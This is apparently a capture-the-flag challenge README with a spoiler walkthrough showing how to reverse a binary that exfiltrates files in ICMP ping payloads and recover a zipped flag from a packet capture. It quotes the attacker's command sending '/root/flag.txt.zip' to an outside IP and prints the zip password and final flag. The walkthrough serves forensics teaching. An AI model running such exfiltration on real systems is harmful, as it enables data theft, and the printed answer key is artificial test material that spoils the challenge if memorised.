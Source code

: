 # Infinitely Complex Malware Pcaps

Thanks to `Samir Ghanem` for the idea.

## Authors

- Jarrod Cameron

## Category

- Reverse Engineering

## Description

I found some malware on my server where I keep all of my flags. I think it stole one of my flags but I can't figure out how!

Wireshark managed to capture some of the packets from my machine, hopefully this helps track down my flag.

## Difficulty

- Child's Play

## Points

420

## Files

- malware: The binary application
- malware.pcapng: A packet capture

## Solution

<details>
<summary>Spoiler</summary>

### Idea

Firstly, reverse engineer the malware to find that it's pinging a server. Each
of these ping packets contain a part of the file containing the flag.
Extracting this data from the packet dump reveals a zip file. This zip file
needs a password to extract the flag. This password can be seen from the telnet
session used by the attacker when `sudo` was called to run the malware.

### Walkthrough

#### 1. Initial Reconnaissance

Firstly, lets look at the malware file.

```
$ file ./malware
./malware: ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=6e5aec612593fe190147b1f285b4fb7d7db9d488, for GNU/Linux 3.2.0, stripped

$ ./malware

$ strace ./malware
execve("./malware", ["./malware"], 0x7ffede576dc0 /* 58 vars */) = 0
[snip]
+++ exited with 0 +++
```

Our initial reconnaissance hasn't returned anything interesting. Executing the
malware with and without `strace` does not reveal much.

Note to current/future malware authors: don't forget to strip your binaries!

#### 2. Static Analysis

The first basic block in the main function shows a call to `inet_aton()` with
`argv[2]` as the first argument:

```radare2
        │ 0x00001459 488d45d0       lea rax, [var_30h]             │
        │ 0x0000145d 488d5004       lea rdx, [rax + 4]             │
        │ 0x00001461 488b45c0       mov rax, qword [argv2]         │
        │ ; void *pin                                              │
        │ 0x00001465 4889d6         mov rsi, rdx                   │
        │ ; const char *cp                                         │
        │ 0x00001468 4889c7         mov rdi, rax                   │
        │ ; int inet_aton(const char *cp, void *pin)               │
        │ 0x0000146b e8e0fcffff     call sym.imp.inet_aton;[oa]    │
        │ 0x00001470 83f801         cmp eax, 1                     │
        │ 0x00001473 740a           je 0x147f                      │
        └──────────────────────────────────────────────────────────┘
                f t
                │ │
```

`inet_aton()` is used to convert an IPv4 address from a string into a `struct
in_addr` which is often used in with with other system calls. If there is an
error when calling `inet_aton()` the program will `exit(0)`.

#### 3. Dynamic Analysis With `strace`

Let's try running the malware again (using `strace`) but with an IPv4 address
as the second argument.

```
# NOTE: "AAAA" is just some random value for argv[1]
$ strace ./malware AAAA 127.0.0.1
[snip]
socket(AF_INET, SOCK_RAW, IPPROTO_ICMP) = -1 EPERM (Operation not permitted)
exit_group(0)                           = ?
+++ exited with 0 +++
```

It seems that the program has made some more progress, however the `socket()`
system call shows `EPERM (Operation not permitted)`. This is because Linux
restricts creating raw sockets (hence the `SOCK_RAW`) to root users. This can
be solved by running the malware as root :D

```
$ sudo strace ./malware AAAA 127.0.0.1
[snip]
socket(AF_INET, SOCK_RAW, IPPROTO_ICMP) = 3
openat(AT_FDCWD, "AAAA", O_RDONLY)      = -1 ENOENT (No such file or directory)
exit_group(0)                           = ?
+++ exited with 0 +++
```

The `openat()` system call is trying to open the file specified by `argv[1]`.
Let's create a _test file_ and try this again:

```
$ echo 'CTF{this_is_a_fake_flag}' > test.txt
$ sudo strace ./malware ./test.txt 127.0.0.1
socket(AF_INET, SOCK_RAW, IPPROTO_ICMP) = 3
openat(AT_FDCWD, "./test.txt", O_RDONLY) = 4
read(4, "CTF{this_is_a_fa", 16)         = 16
sendto(3, "\10\0\262wCS\0\0CTF{this_is_a_fa", 24, 0, {sa_family=AF_INET, sin_port=htons(0), sin_addr=inet_addr("127.0.0.1")}, 16) = 24
clock_nanosleep(CLOCK_REALTIME, 0, {tv_sec=1, tv_nsec=0}, 0x7ffd2aaff050) = 0
read(4, "ke_flag}\n", 16)               = 9
sendto(3, "\10\0\f\1CS\0\1ke_flag}\n", 17, 0, {sa_family=AF_INET, sin_port=htons(0), sin_addr=inet_addr("127.0.0.1")}, 16) = 17
clock_nanosleep(CLOCK_REALTIME, 0, {tv_sec=1, tv_nsec=0}, 0x7ffd2aaff050) = 0
read(4, "", 16)                         = 0
close(4)                                = 0
exit_group(0)                           = ?
+++ exited with 0 +++
```

It looks like the malware is using `sendto()` to send the contents of the file
after splitting it apart. Each time a chunk of the file is sent the program
sleeps for one second.

#### 4. Dynamic Analysis With `wireshark`

Let's have a closer look at the packets sent by the malware in Wireshark. Using
the command `sudo wireshark` will startup `wireshark` (root privileges are
needed to capture packets on an interface). After that, select the `Loopback:
lo` interface.

Running the command `sudo ./malware ./test.txt 127.0.0.1` will make the malware
resend the same packets. Wireshark should then display the packets sent by the
malware.

We can see the malware is sending _ICMP echo requests_!

At the top of Wirehsark there should be a text box that says `Apply a display
filter ...`. Using the filter `icmp.type == 8` Wireshark will only show the
ICMP packets sent by the malware and not the response from the destination.

Upon further inspection it can be seen that each of the ICMP packets have part
of the file's contents appended to the end. This can be seen by clicking on the
part of the file in the hex dump in the bottom panel.

#### 5. Extracting Data from Ping Packets

Now we know the malware is exfiltrating the file via ICMP echo requests let's
look at the original packet capture.

The following command will extract the bytes exfiltrated by the malware:

```bash
tshark -2 -R 'icmp.type == 8' -r malware.pcapng -T json \
        | jq --raw-output '.[]._source.layers.icmp.data["data.data"]' \
        | sed 's#^#/bin/echo -ne ":#g ; s#:#\\x#g ; s#$#"#g' \
        | bash \
        | xxd
```

The output can be seen below:

```
00000000: 504b 0304 0a00 0900 0000 4a78 c252 edf5  PK........Jx.R..
00000010: c41a 3f00 0000 3300 0000 0800 1c00 666c  ..?...3.......fl
[snip]
```

A quick summary of the above command:
- `tshark` is used to convert data in the `malware.pcapng` file into json. The
  filter `icmp.type == 8` is used to only show the ICMP echo request packets.
- `jq` is used to parse the json (created by `tshark`) to extract the data from
  each of the packets.
- `sed` is used to convert the data into `echo` commands. This makes it easier
  to convert the data from ASCII characters into bytes.
- `bash` is used execute the commands. This will convert the data exfiltrated
  by the malware back into the original file that it tried to send.
- `xxd` is used to print the results in a human readable format.

Now that the data exfiltrated by the malware have been identified we should
look inside for any potential flags :D

Using a modified version of the above command (swapping `xxd` for `file -`) we
can see the file type:

```bash
tshark -2 -R 'icmp.type == 8' -r malware.pcapng -T json \
        | jq --raw-output '.[]._source.layers.icmp.data["data.data"]' \
        | sed 's#^#/bin/echo -ne ":#g ; s#:#\\x#g ; s#$#"#g' \
        | bash \
        | file -
```

The output can be seen below:

```
/dev/stdin: Zip archive data, at least v1.0 to extract
```

The above results show that it's a zip archive. Let's try to extract the
contents and unzip the file:

```
$ tshark -2 -R 'icmp.type == 8' -r malware.pcapng -T json \
        | jq --raw-output '.[]._source.layers.icmp.data["data.data"]' \
        | sed 's#^#/bin/echo -ne ":#g ; s#:#\\x#g ; s#$#"#g' \
        | bash > data.zip

$ unzip data.zip
Archive:  data.zip
[data.zip] flag.txt password:
```

After all that work we still need a password!

```
         .:.
         yMMNh+-
         /MMMMMoss/`
          yMMMm  `/yy/`
          `dMMd     `/ys:
           .mMd        .+yo.                                                            `-:/oo`
            .mN`         `-sy:                                                    .-/ooyNNMMMd
             .dy            .+y+`                                           `-/ooso/-``/MMMMd`
              `hs             `/yo.                                    .:+oso+:.`      yMMMh`
               `yy`             `:yo.                             .:+oso/-.`          -MMMs`
                `oh.              `:yo::::::::::::::::::--.` .:+oso/-``              `dMN/
                  /d:               `-----------------:::/+oso/-.`                  `yMh.
                   -ho`                                                            `ym/`
                    `sh-   `.                                                     :hs.
                      :y+-os.                                                   -ss-
                       `ym+`                                           `     `:ss-
                       -m-                                             +s-`-oy+.
                      .d:       .:::.                                   :ddo-`
                     `d/       +dohMm:                   `/shy/`         .do
                    `ho       `MNsdMMh                   sN/sMMs          .m-
                    oh         yMMMMN/                   mMmNMMd           +d
                   -m.          :++/-                    /mNNNd-            m/
                   h+ `....`              `yhhs`          `--.              /m
                  -m.sdNNNmh+`             /oo+`                 ``.``      `N:
                  somMMMMMMMM/                                 -sdmmmdy:     sh
                  h:yMMMMMMMN:            `-::::-.`           /MMMMMMMMMo    -M.
                  h/ /ymmmds:            omh+/::/oh/          sMMMMMMMMMd     d+
                  +h                    .M/       :d          .hNMMMMMMm:     od
                  `m:                   `m/`      -m            -+oso+:`      .N`
                   :m`                   .sy+-.../h+                           h-
                    /-                      -////:.                            ``
```

#### 6. More Wireshark!

Let's go back to Wireshark and checkout the `malware.pcapng` file to see if
there are any more goodies that could help. Use the `wireshark malware.pcapng`
command to open the supplied packet capture. Let's try to filter down the
results for anything that might be interesting. We can sort by protocol and
hopefully find something useful.

After searching the list of protocols there is one that sticks out. Telnet!

If you haven't heard of telnet (that's probably a good thing) it used to be
used to connect to a machines remotely. Telnet doesn't encrypt communication
which makes it easy for us to checkout what was going on.

We can set the filter to `telnet` to only show us the telnet packets. We can
see the conversation over telnet by going to `Analyze` -> `Follow` -> `TCP
Stream`.

It seems the attacker managed to run the following command to exfiltrate the
file `/root/flag.txt.zip` to `192.168.15.131`:

```bash
sudo -S /tmp/malware /root/flag.txt.zip 192.168.15.131
```

We can also see the password that was used when `sudo` was executed:
`WhyArePeopleEvenUsingSudoTheseDays`.

#### 7. Using the Password on the Zip File

Let's try the password on the zip file we extracted earlier:

```bash
$ unzip data.zip
Archive:  data.zip
[data.zip] flag.txt password: WhyArePeopleEvenUsingSudoTheseDays
 extracting: flag.txt

$ cat flag.txt
SKYLIGHT{Who_kn3w_pIng_was_such_a_pa1n_to_pr0gram!}
```

### Flag

```txt
SKYLIGHT{Who_kn3w_pIng_was_such_a_pa1n_to_pr0gram!}
```

</details>
